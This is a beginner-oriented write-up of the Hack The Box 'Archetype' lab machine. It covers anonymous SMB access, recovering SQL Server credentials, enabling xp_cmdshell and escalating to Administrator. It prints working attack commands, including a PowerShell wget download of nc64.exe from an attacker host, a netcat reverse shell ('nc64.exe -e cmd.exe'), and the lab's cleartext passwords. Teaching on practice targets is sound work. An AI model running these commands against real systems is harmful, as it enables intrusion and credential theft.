


# Basics of penetration testing

***In our journy to learn penetration testing we takes a machines in HTB to can explain the basics of penetration***


## ARCHETYPE WRITE-UP

### The idea of this machine is : see the following

- `SMB` , `MS-SQL-S` , `Privilege Escalation` , `Reverse Shell`.
- we will connect with smb protocol without password or username .
- we will get some information to connect with ms-sql server .
- we will learn how to make areverse shell .
- we will try to make a Privilege Escalation to can access Administrator files.
- we will got the flag.

### Enumeration :-

***And this is the first step you will begin with every time you performing an attack***

- After connecting with vpn you will spawn the machine and you will have the ip address for this machine .

- As we explained in earlier machines you must know how to download vpn and connect with HTB server and ping for IP_address .
- We will begin with `nmap` tool to check what is the open ports in the target machine .

- We will use this command `sudo  nmap  -sV  -sC  {IP_address}` , in the next image you can study what this command do.

- 
  
- Now you should know why we used this command so, let's execute this command :-

- 
- 

- As you can see in `nmap` report that we got a lot of informations , Don't pass this part until you understand every information in this report.

- We got four open ports , Let's look at them.
  
  - `135/tcp`
    - state   : `open`
    - service : `msrpc`  
    - version : `Microsoft Windows RPC`  
  
  - `139/tcp` :  
    - state   : `open`
    - service : `netbios-ssn`  
    - version : `Microsoft Windows netbios-ssn`
  
  - `445/tcp`
    - state   : `open`
    - service : `????`
    - version : `Microsoft Server 2019 Standard 17763 microsoft-ds`
  
  - `1433/tcp`
    - state   : `open`
    - service : `ms-sql-s`
    - version : `Microsoft SQL Server 2017`

- You shoul filter the output of nmap_report like this .
- After looking for open ports in the nmap report you will see that we have information about retreving to `smb and ms-sql-s` , and you should know what these protocols can do because this is the core of the solution to this machine .

  - **What is Server Message Block (SMB)?**

    - Server Message Block (SMB) is the protocol that allows devices on the same network to communicate with each other and share resources such as files and printers through what is known as inter-process communication.

    - There are several different implementations of SMB, such as Common Internet File System (CIFS), which lets Windows devices share files. Samba is another implementation of SMB, which enables devices not running Windows share resources with those that are.

    - Over the years, Microsoft has developed a series of versions of SMB. For example, SMB 3 is a version that provides end-to-end encryption and support for virtualized environments.
    - we will use the `smbclient` tool , to connect with the server by SMB protocol .

    - 
  
  - **what is Microsoft SQL Server  (ms-sql-s) ?**

    - Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).
    - You can find more about ms-sql-s by clicking [Here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
    - We need to search about any tool to connect with ms-sql-s , I will learn you about this tool in the next phases let's go from here.

- This is all you need to know about our target , you can search separately if you still miss understanding any thing.
- I will make sure that the target are vunlerable for smb , we will use the next command .
- 
- As you can see in the previous image , the target is already vulnerable to remote code execution , so let's exploit this vulnerability.

### Foothold

- I will begin with the `smbclient` tool to see the shares inside the machine , We will use the next command `smbclient -L {target_ip}` as following.

- If you asked about any password just keep it blank , which mean there is no password just hit enter.

- 

- As you can see that there is four shares on of them have user privilege which is "backups" share , If you try to connect with any shares you will got the access denied unless you try to connect with backups share, we will use this command to see what inside backups share `smbclient \\\\{target_IP}\\backups` As the next image.

- 
- As you can see we already reached the backups file and we find one file called `prod.dtsConfig` , so we download it in our machine by hitting get command as you can see in the previous image.
- let's open this file inside our machine and check it out.

- 

- you will find the file downloaded in the path you was there when you use the get command.
- As you can see in the previous image that we have the password and the username for the `ms-sql-server` , So all we need now to find some way to connect with this server , put in your mind this word `"when we don't know we should search to know"` , Let's search.
- You can go to the website I mentioned before , You will got all you need click [Here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
- While you read in the website you will find that there is a way to do manual enumeration for the MSSQL server , Let's check it out.
- 

- I don't know about this tool like you so let's find what is it .
- 

- As you can see in the previous image impacket is wide tool to craft and decode network packets , We should download it and learn how to deal with it .

- You can download it from [Here](https://github.com/fortra/impacket)

- run the next commands to get impacket.

```py

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
pip3 install -r requirements.txt

```

- run the next command to download pip3 if you don't have it.
  
```py
sudo apt install python3 python3-pip
```

- We wil begin the attack right now , run this command inside your terminal to get inside the targeted folder.

- 

- when you list the existing files you will see a lot of files like following:-

- 

- In the previous image you will notice that all files finshes with `.py` extension which mean they are tools scripted with python language , We will use one script called `mssqlclient.py`.

- In the next image you will see help menu for `mssqlclient.py` script.

- 

- we will use the next command to get inside the server

```py
python3 mssqlclient.py ARCHETYPE/sql_svc@{target_ip} -windows-auth
```

- explain the used command:-

  - `python3` : Because the file scripted by python language we will begin the command with `python3` .
  - `mssqlclient.py` : This is the target file we will use.
  - `ARCHETYPE/sql_svc` : this is the username we found in the downloaded file from smbclient tool.
  - `-windows-auth` : This flag is specified to use Windows Authentication.

- 
- As you can see we will asked about password so we should type the password we found in the downloaded file which is "`M3g4c0rp123`".

- 
- Now we are in , just type help to see the command you can use .
- We have a very limited commands to execute , so we need to use some advanced commands so we will open `CMD-shell`, All these info you will find it in the `HackTricks` website, Let's do it.

- 
  
- While we are reading we find the previous note in the website , this note makes us notice that we should have the execution permission on the xp_cmd shell, so let's find how to have this permission.

- In the `HackTricks` we find  how to set up the command execution through the xp_cmdshell:-

- firstly if you tryed to execute command like this  "`EXEC master..xp_cmdshell'whoami'`" you will got an error message so we need to configure the cmdshell.

- 

- As you can see in the previous image we will use the markeup statements to configure `xp_cmdshell` , Run the next commands.

  ```py
  # This turns on advanced options and is needed to configure xp_cmdshell
  sp_configure 'show advanced options', '1'
  RECONFIGURE
  #This enables xp_cmdshell
  sp_configure 'xp_cmdshell', '1'
  RECONFIGURE
  ```

- 

- As you can see in the previous image , We configure a xp_cmdshell , And we run a cmd command which is "`EXEC master..xp_cmdshell'whoami'`" and we got the response which is "`archetype\sql_svc`" , which mean that we successfully configure the cmd shell .

- Now, we will attempt to get a stable reverse shell, To be more than able to run an advanced system command like {whoami , pwd , ls , cat } and also we need to make a reverse shell to upload some files from our machine to the terget .

- We will upload the `nc64.exe` binary file to the target
machine and execute an interactive `cmd.exe` process on our listening port, you will find the nc64.exe file [Here](nc64.exe)

- first we need to perform a reverse shell.,To make a reverse shell we need a three stpes :-
  
  - the first one is : start the simple HTTP server from our machine , I will learn you How in the next step.
  - the second one is : start the netcat listener in the second tab .
  - the third one is : to run the execution command in the target machine to connect with the netcat session inside our machine

- let's execute the first two steps by running those commands:-
  
  - run this command in your terminal **`sudo python3 -m http.server 80`**
  - open another terminal and run this command to ,**`sudo nc -lvnp 443`**

- 

- In order to upload the `nc64.exe` binary file in the target system, we need to find the appropriate folder for that. We will be using PowerShell for the following tasks since it gives us much more features then the regular command prompt.
- In order to use it, we will have to specify it each time we want to execute it until we get the reverse
shell.
- To do that, we will use the following syntax: powershell `-c`command , The `-c` flag instructs the powershell to execute the command.
- We will print the current working directory by issuing the following:

- We found the folder where we will place the binary. To do that, we will use the wget alias within PowerShell
( wget is actually just an alias for Invoke-WebRequest ):`xp_cmdshell "powershell -c pwd"` .

- 

- As a user archetype\sql_svc , we don't have enough privileges to upload files in a system directory and
only user Administrator can perform actions with higher privileges.
- We need to change the current working directory somewhere in the home directory of our user where it will be possible to write.
- After a quick enumeration we found that `Downloads` is working perfectly for us to place our binary. In order to do
that, we are going to use the wget tool within PowerShell:

  ```py
  SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{your_ip}/nc64.exe -outfile nc64.exe"
  ```

- 

  - As you can see in the previous image that we typed the command in the left tab and we find in the right tab that the target machine indeed performed the request .

- Now, we can bind the cmd.exe through the nc to our listener:

  ```py
  SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe
  10.10.14.9 443"
  ```

- Finally looking back at our netcat listener we can confirm our reverse shell and our foothold to the system:

- 
  
  - You can see in the previous image that we have the reverse shell in the right-bottom tab .

- The user flag can be found in the user's Desktop:
- 
  
  - you can type "`more user.txt`" to read the flag , let's find how to get the root flag.

#### Privilege Escalation

- For privilege escalation, we are going to use a tool called `winPEAS`, which can automate a big part of the
enumeration process in the target system.

- It is possible to download winpeas from [Here](winPEASx64.exe).
- We will transfer it to our target system by using once more the Python HTTP server:

  ```py
  python3 -m http.server 80
  ```

- On the target machine, we will execute the `wget`command in order to download the program from our
system.
- The file will be downloaded in the directory from which the wget command was run.
- We will use powershell for all our commands:

  ```py
  powershell
  wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe
  ```

- 
- 

  - You can see in the previous image that we successfully downloaded the `winpeas` , let's see what we will do with this tool.

- To execute the machine we will use the next command :-

  ```py
  PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
  ```

- 

- Just hit enter after type the following command and see the output , we will need one statement from the big output will appear now , Which is :-

  - 
  - 
  
  - you will find more about `SeImpersonatePrivilege` [here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege)

  - we can first check the two existing files
where credentials could be possible to be found.

- As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands.
- To do that, we will read the PowerShell history file, which is the equivalent of
`.bash_history` for Linux systems.
- The file`ConsoleHost_history.txt` can be located in the directory `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ .`
- 
- We will read what inside the file by using `type` command
- 

- We got in cleartext the password for the `Administrator` user which is `MEGACORP_4dm1n!!`.

- Now we will go back to connect with the mssql server , but this time we will connect with `psexec.py` file.
  
  - username :`Administrator`.
  - password :`MEGACORP_4dm1n!!`.

- 

- You can find the root flag in "`\Users\Administrator\Desktop`" directory

- 

- We successfully got the flag!
- Congratulations , Assem_Ayman.
